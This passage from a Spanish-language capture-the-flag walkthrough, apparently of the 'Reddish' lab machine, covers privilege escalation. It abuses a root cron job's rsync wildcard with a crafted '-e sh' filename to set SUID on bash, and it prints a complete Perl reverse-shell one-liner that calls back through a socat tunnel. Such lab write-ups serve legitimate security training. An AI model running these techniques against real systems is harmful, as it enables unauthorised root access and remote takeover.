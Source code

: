 Obteniendo:

![Untitled](/assets/img/Reddish/Pasted image 20240327203957.png)

Se está ejecutando un archivo `/backup/backup.sh`

Enumerando a traves de tareas cron se tiene:

![Untitled](/assets/img/Reddish/Pasted image 20240312181224.png)

Existe una tarea que el usuario `root` estará ejecutando cada tres minutos![Untitled](/assets/img/Reddish/Pasted image 20240312181441.png)

Listando este archivo se tiene:

![Untitled](/assets/img/Reddish/Pasted image 20240312181539.png)

Se va a abusar del comando `rsync`, ya que se está utilizando `wildcards` para su ejecución por lo que se va a crear dos archivos en la ruta `/var/www/html/f187a0ec71ce99642e4f0afbd441a68b`

```bash
echo 'chmod u+s /bin/bash' > test.rdb
touch -- '-e sh test.rdb'
```

![Untitled](/assets/img/Reddish/Pasted image 20240313115857.png)

Luego de un momento se obtiene:

![Untitled](/assets/img/Reddish/Pasted image 20240312182615.png)

La `bash` ha cambiado a `SUID`

Ejecutando una consola como el usuario `root`

![Untitled](/assets/img/Reddish/Pasted image 20240312182716.png)

### Reverse shell `www-data` → Máquina atacante

Una forma alternativa de escalar privilegios es hacer que la máquina víctima `www-data` mande una reverse shell a la maquina atacante, ya que el usuario que esta ejecutando el archivo es `root`

Para enviar una reverse shell desde la máquina `www-data`, correspondiente a las direcciones IP `172.20.0.2` y `172.19.0.3`, utilizaremos el túnel previamente establecido con `socat` en la máquina `nodered`. Por lo tanto, ahora el archivo `tet.rdb` contendrá un one-liner que enviará una reverse Shell hacia la máquina `172.19.0.4`, donde se encuentra activo `socat`. Posteriormente, la máquina `172.19.0.4 - nodered` redirigirá el tráfico hacia nuestra máquina atacante.

```bash
perl -e 'use Socket;$i="172.19.0.4";$p=7979;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Codificando en `base64`

Transfiriendo a la máquina víctima decodificando y guardando la salida en el archivo `test.rdb`
